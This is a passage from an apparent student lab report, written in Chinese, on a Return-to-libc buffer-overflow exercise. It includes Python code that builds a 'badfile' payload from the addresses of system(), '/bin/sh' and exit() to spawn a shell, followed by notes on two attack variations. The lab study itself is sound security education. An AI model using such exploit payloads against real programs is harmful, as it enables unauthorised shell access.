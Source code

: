       
      Y = 0xffffcd58 - 0xffffcd40 + 4
      system_addr = 0xf7e12420   # The address of system()
      content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')
      
      X = Y + 8
      sh_addr = 0xffffd3e5       # The address of "/bin/sh"
      content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')
      
      Z = Y + 4
      exit_addr = 0xf7e04f80     # The address of exit()
      content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')
      
      # Save content to a file
      with open("badfile", "wb") as f:
        f.write(content)
      ```

      攻击结果如下：

      ![exploit](/img/posts/2023-11-20-Return_to_Libc实验报告/images/exploit.png)

   2. Attack variation 1: 删去exit()函数地址 ，发现虽然可以成功获取命令行，但是无法正常退出。

      ![删去exit](/img/posts/2023-11-20-Return_to_Libc实验报告/images/删去exit.png)

   3. Attack variation 2:修改retlib函数长度为newretlib，发现地址发生变化，无法正确执行命令。

